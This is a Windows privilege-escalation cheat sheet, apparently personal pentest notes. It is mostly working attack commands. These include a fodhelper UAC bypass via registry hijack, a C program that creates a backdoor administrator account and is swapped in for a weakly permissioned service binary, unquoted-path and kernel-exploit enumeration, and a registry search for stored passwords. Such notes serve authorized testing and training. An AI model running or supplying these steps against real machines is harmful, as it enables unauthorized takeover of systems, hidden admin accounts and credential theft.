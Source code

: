 # Windows Privilege Escalation

## Bypass UAC via registry hijacking 

Check Mandatory Level

``` bash
whoami /groups
```

Run cmd.exe as Administrator to get High Mandatory Level

``` bash
powershell.exe Start-Process cmd.exe -Verb runAs
```

`C:\Windows\System32\fodhelper.exe`

``` bash
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command
```

``` bash
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ
```

``` bash
REG ADD HKCU\Software\Classes\ms-settings\Shell\Open\command /d "C:\Users\windows_10_1903_x64\Desktop\shell.exe" /f
```

## Insecure File Permissions

Get Server and Path to running

Powershell >>>

``` bash
Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}
```

=== "Check permission"

	``` bash
	icacls "C:\Windows\system32\wbem\WmiApSrv.exe"
	```

=== "refer icacls"

	[icacls](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/icacls#remarks)

	|Mask| Permissions|
	|---|---|
	|F| Full access|
	|M| Modify access|
	|RX| Read and execute access|
	|R| Read-only access|
	|W| Write-only access|

Overwrite file if have F or W permission.

=== "Compile code adduser.c"

	``` bash
	i686-w64-mingw32-gcc adduser.c -o adduser.exe
	```

=== "adduser.c"

	``` c
	#include <stdlib.h>

	int main ()
	{
	    int add;
	    add = system ("net user backup Adm1nP@ssWD /add");
	    add = system ("net localgroup administrators backup /add");
	    return 0;
	} 
	```

Move file `adduser.exe`

``` bash
move adduser.exe "C:\Program Files\Serviio\bin\ServiioService.exe"
```

Check StartMode for service

``` bash
wmic service where caption="Serviio" get name, caption, state, startmode
```

Check rights for restart system

``` bash
whoami /priv
```

Restart system

``` bash
shutdown /r /t 0
```

Check Administrators group

``` bash
net localgroup Administrators
```

## Leveraging Unquoted Service Paths

``` bash
wmic service get displayname,pathname
```

``` bash
C:\Program.exe
C:\Program Files\My.exe
C:\Program Files\My Program\My.exe
C:\Program Files\My Program\My service\service.exe
```

## Kernel Exploit

### OS Version & Architecture

``` bash
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```

### Driver Enumeration

``` bash
driverquery /v
```

### For Example

[Vulnerability in Ancillary Function Driver](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/003-devel_aspx-backdoor_ms11-046-6.1.7600#vulnerability-in-ancillary-function-driver)

[RGNOBJ Integer Overflow](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/006-optimum_httpfileserver-2.3_ms16-098-6.3.9600#rgnobj-integer-overflow)

[CVE-2015-1701](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/007-bastard_drupa7.54_MS15-051-6.3.9600#cve-2015-1701)

## More Reference

[https://www.hackingarticles.in/windows-privilege-escalation-alwaysinstallelevated](https://www.hackingarticles.in/windows-privilege-escalation-alwaysinstallelevated)

### Add Local Admin User

``` bash
net user /add <user> <pass>
```

``` bash
net localgroup administrators <user> /add
```

### Run CMD as Admin

``` bash
powershell.exe Start-Process cmd.exe -Verb runAs
```

### Clear text stored

``` bash
reg query HKLM /f pass /t REG_SZ /s
```